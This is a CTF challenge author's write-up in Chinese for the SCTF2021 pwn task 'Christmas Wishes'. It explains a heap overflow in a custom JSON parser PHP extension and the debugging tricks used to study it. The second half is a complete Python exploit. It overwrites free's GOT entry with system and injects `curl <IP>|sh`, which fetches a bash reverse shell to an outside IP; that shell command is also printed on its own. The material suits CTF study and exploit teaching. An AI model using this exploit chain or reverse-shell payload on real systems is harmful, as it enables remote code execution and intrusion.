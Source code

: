# SCTF2021 pwn Christmas Wishes 出题思路+预期解

[sctf2021 pwn出题思路](https://lingze.xyz/pages/6d05cb/)



* [Christmas Wishes](#christmas-wishes)
  * [题目描述](#题目描述)
  * [出题思路](#出题思路)
  * [调试方案](#调试方案)
  * [getshell](#getshell)
  * [exp](#exp)

## 题目描述

圣诞许愿！请输入你的愿望吧！现在已经全面支持json格式！(漏洞利用脚本存在直接成功情况，请在本地搭建环境成功后尝试利用远程，远程环境每五分钟重启一次。)
Make a Christmas wish! Please enter your wish! Now has full support for json format! (Vulnerability exploit script exists direct success, please try to exploit the remote after a successful local build environment, remote environment restart every five minutes.)

题目分值：800

解题人数：6

[题目文件](https://github.com/SycloverTeam/SCTF2021/tree/master/pwn/ChristmasWishes)

## 出题思路

其实最开始没想做成一个php pwn题目，原本就是写了个json parser， 然后模拟一个大的项目中的用来处理json的一个小组件，里面存在漏洞， 构造个环境去利用。

在写完以后发现了一个parser_string位置的堆溢出漏洞，而且和`cve 2021 3156`一样。

![image-20220103005237802](https://s2.loli.net/2022/01/03/LuRnxqacFE8TIv7.png)

然后配合链表单向修改可以实现任意地址写，

![image.png](https://s2.loli.net/2022/01/03/cULSumZFydVgvWj.png)

在和[@AFKL](https://afkl-cuit.github.io/)简单讨论这个思路时提到可以直接做成一个php网站，由于本来的代码也是模块化出来的，于是很简单的修改成了一个php拓展，搭建出来目前这个样子。

原本elf版本的在文件 `JsonParse_elf`， php拓展在文件`jsonparser_php`， 

## 调试方案

因为是个so文件，编写了一个简单的loader进行调试

```c
#include <stdio.h>
#include <dlfcn.h>
#include <string.h>
#include <stdlib.h>

typedef struct reader {
    char *buf;
    int size;
    int offset;
} _reader;

int main(){
    void *handle = dlopen("modules/jsonparser.so", RTLD_LAZY);
    void *(* Parser)(void *temp);
    _reader *reader = malloc(0x10);
    char * json = malloc(0x100);
    int fd = open("./exp.json", 0);
    int size = read(fd, json, 0x100);
    reader->buf = json;
    reader->size = size;
    reader->offset = 0;

    Parser = dlsym(handle, "Parser");
    Parser(reader);
}
```

思路是通过重复删除机制构造堆布局，然后通过堆溢出覆盖Item_struct， 通过重复删除的双链表修改可以实现地址修改，将so文件的free_got改为system， 基本可以调试并得到exp， 



在出题过程中对远程docker环境的调试，

直接hook掉了malloc free函数， 在函数`zif_jsonparser_test2`位置增加代码即可，通过`php_printf`打印相关信息可以得到远程的堆环境，(文件在`jsonparser_patch.so`)

```
call 0x0000000000002504
0000000000002504 hook_malloc  

	push rdi;
	call 0x000000000002220;
	pop rsi;
	push rax;
	mov rdx, rax;
	lea rax, qword ptr [0x0000000000024B9]
	mov rdi, rax;
	call 0x00000000002230
	pop rax;
	ret;


call 0x0000000000002526
0000000000002526 hook_free   

	push rdi;
	mov rsi, rdi;
	lea rax, qword ptr [0x000000000024D9]
	mov rdi, rax;
	call 0x00000000002230
	pop rdi;
	call 0x0000000000002050;
	ret;
```

> 甚至在这个操作中还解决了一个bug

![image.png](https://s2.loli.net/2022/01/03/YvHV6ecm4MnzbXi.png)

> 图中可以看到， 最后free的堆块为 0x9200，向上找到size为0x40为item结构体， 而我们构造的溢出的字符串为0x17的 地址为0x91e0，于是可以直接向下覆盖， 修改掉这个结构体，利用delete_item位置。

![image.png](https://s2.loli.net/2022/01/03/AvkiGLwWQS1xRFg.png)

然后编写了个memory_detection的拓展 封装成api， 用于直接查看内存。

```c
PHP_FUNCTION(memory_detection)
{
	long var;
	ZEND_PARSE_PARAMETERS_START(0, 1)
		Z_PARAM_OPTIONAL
		Z_PARAM_LONG(var)
	ZEND_PARSE_PARAMETERS_END();

	php_printf("memeory detection: [%p]\n", var);
	void * p;
	for(int i=0; i<0x100; i++){
		p = var + i*8;
		php_printf("addr[%p]: \t%016llx\t%s\n", p, (long long)*(long long *)p, (char *)p);
	}
}
```

```php
<?php 
memory_detection(base_convert($_GET["addr"], 16, 10));
```

![image.png](https://s2.loli.net/2022/01/03/VWzI7vfjYRFnKtx.png)

## getshell

最后反弹shell， `bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'`, 

## exp

```python
from pwn import * 
import requests

# context.log_level='debug'
# context.terminal=['tmux', 'splitw', '-h']

# cn = process("./loader")

host = 'http://124.70.201.145:7777/'

cmd = '''
# b * Parser
# b * new_Object
b * delete_item
'''
def hhex(number):
    num = "{:0>16x}".format(number)
    tmp = [num[i:i+2] for i in range(0, 16, 2)][::-1]
    tmp2 = ["".join(tmp[i:i+2]) for i in range(0, 8, 2)]
    return "\\u" + "\\u".join(tmp2)


def printff(num):
    print("{:0>16x}".format(num))

# from /proc/self/maps
base = 0x7f872c6e2000
system     = base + 0x000000000002170
printf     = base + 0x000000000002230
free_got   = base + 0x000000000006028
bss = base + 0x00000000000632C


echohello = base + 0x0000000000004059


json = '''
{{
    "1": "aaaaaaa", 
    "2": "aaaaaaa", 
    "3": "aaaaaaa", 
    "4": "aaaaaaa", 
    "5": "aaaaaaa", 
    "6": "aaaaaaa", 
    "7": "aaaaaaa", 
    "8": "aaaaaaa", 
    "A": "aaaaaaa", 
    "A": "bbbbbbb",
    "A": 1, 
    "B": 2,
    "echo hello": "{pad1}\\\x00{pad2}{fake_item}"
}}
'''.format(
    pad1 = 'c' * 0x15, 
    pad2 = 'a'* (0x20 - 0x15), 
    # fake_item = "sh -i < /dev/tcp/81.69.0.47/9" + "\\u0000a" + hhex(echohello) + hhex(0) + hhex(printf) + hhex(free_got - 0x30)
    fake_item = "bash -c 'curl 1.14.92.160|sh'\\u0000"+'a'*1 + hhex(echohello) + hhex(0) + hhex(system) + hhex(free_got - 0x30)
)
'''
wlz@VM-0-4-ubuntu:~$ curl 1.14.92.160
bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'
'''


r = requests.post(host, data={'wishes': json})
print(r.status_code)
print(r.text)
print(json)

printff(system)
printff(printf)
printff(free_got)


# gdb.attach(cn, cmd)
# cn.sendline(json)
# cn.interactive()

```


